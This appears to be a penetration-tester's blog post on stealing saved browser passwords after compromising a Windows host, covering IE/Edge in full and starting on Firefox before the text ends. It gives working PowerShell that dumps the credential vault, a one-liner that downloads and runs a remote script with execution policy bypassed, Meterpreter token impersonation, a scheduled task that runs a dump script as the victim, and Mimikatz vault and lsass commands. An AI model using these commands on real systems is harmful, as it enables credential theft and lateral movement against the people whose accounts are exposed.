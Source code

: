 ```yaml
---
title: Extracting Saved Browser Passwords: Your New Favorite Post-Exploitation Technique
date: 06/24/2021
tags: ['cybersecurity', 'passwords', 'post-exploitation']
draft: false 
summary: Learn how to extract saved browser passwords from compromised hosts for fun and profit - your new favorite post-exploitation technique!
---
```


<div className='w-full flex flex-row items-center justify-center'>
![Chrome](/static/content/wifi-credentials/chrome-cracked.png)
</div>

## Overview 
People reuse passwords, and most people will never stop doing so, despite how frequently they are reminded not to. As every pentester knows, password reuse is commonplace, and we love few things more than finding caches of passwords!

My favorite place to find such caches is in browsers — most modern browsers will either save or offer to save your passwords for you, and some even save them by default! Lots of people take advantage of this convenient feature, which results in their passwords being stored on-disk in their browser’s application data files.

I have had great luck in the past with either using saved browser passwords to move laterally or to pivot into other applications and services. In this article, I’m going to go over the toolset and methodology I use for dumping saved passwords from browsers. Specifically, I’m going to cover:

* IE/Edge
* Firefox
* Chrome/Brave/Opera

## Stealing Passwords Saved in IE/Edge 
Note: I have not tested this on newer versions of Edge. Older versions use the credential vault (like IE), newer ones cloud save them to Microsoft servers if you’re logged into a Microsoft account. It’s still worth checking either way.

### Requirements 
To dump creds from IE and old versions of Edge, you need one of the following:

* a shell as the user you want to steal credentials from
* NT Authority\System permissions

### Dumping Creds with PowerShell
You can use the following PowerShell commands to list the saved login, password, and URLs that are stored in your user’s credential vault:

```powershell filename=credlist.ps1
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | % { $_.RetrievePassword();$_ } | select username,resource,password
```

Alternatively, you can drop the following one-liner:

```powershell 
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/HanseSecure/credgrap_ie_edge/master/credgrap_ie_edge.ps1')"
```

Props for this technique go to [@CyberWarship](https://x.com/cyberwarship)

### Dumping creds from an NT Authority/System Shell 
You have a couple of options for this attack if you’re running in a high-integrity shell. If you happen to be running Meterpreter, you can use the following commands to impersonate a user:

```shell
list tokens -u
impersonate_token <SOME_TOKEN>
shell
```

Other C2 frameworks may provide a similar feature. Then, you can use the PowerShell commands above like normal.

Alternatively, you can create a scheduled task that will execute as the desired user(s). First, create the following PowerShell script on the victim host in a place that the user you’re targeting will be able to read (`C:\users\public\documents` is always a good place). Note that this script is modified from the version provided above.

```powershell filename=credlistv2.ps1

[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() |% {$_.RetrievePasswords();$_} | Out-File C:\users\public\output.dmp
```

Then, execute the following command to schedule and run a task as the user to execute the PowerShell script created in the previous step:


```powershell filename=executescheduledtask.ps1 
powershell -ExecutionPolicy bypass "$action=New-ScheduledTaskAction -Execute 'C:\path\to\script.ps1';$trigger=New-ScheduledTaskTrigger -Once -At 'MM/DD/YYYY HH:MM:SS PM'; Register-ScheduledTask -Action $action -Trigger $trigger -TaskName 'Launch' -User 'DOMAIN\username'"
```

Make sure to modify the path to the script, the trigger time, the domain name, and the user name! Then, once the task has been executed, browse to where you wrote the file, and you can read all the user’s saved IE/Edge credentials.


**Alternatively**, you can use Mimikatz on the target host, or on a memory dump of lsass.exe:

```shell 
vault::cred
vault::list
```

or

```shell 
sekurlsa::minidump lsass.dmp # load the memory dump
vault::cred
vault::list
```

## Stealing passwords saved in firefox 
How it works: depending on the version, Firefox will store logins and passwords in the following files:

* Firefox < 32 (`key3.db`, `signons.sqlite`)
* Firefox >=32 (`key3.db`, `logins.json`)
* Firefox >=58.0.2 (`key4.db`, `logins.json`)
* Firefox >=75.0 (sha1 pbkdf2 sha256 aes256 cbc used by `key4.db`, `logins.json`)
* Applies to at least Thunderbird 68.7.0, likely other versions

Note the key file stores the encryption key that’s used to encrypt the values in the sqlite/json files. This attack actually can be performed offline, as long as we have the files that we need.

### Grabbing the key and login files
The default file path that these files are stored in is predictable, but it does contain a random string, so grabbing these files isn’t super easy to script out:

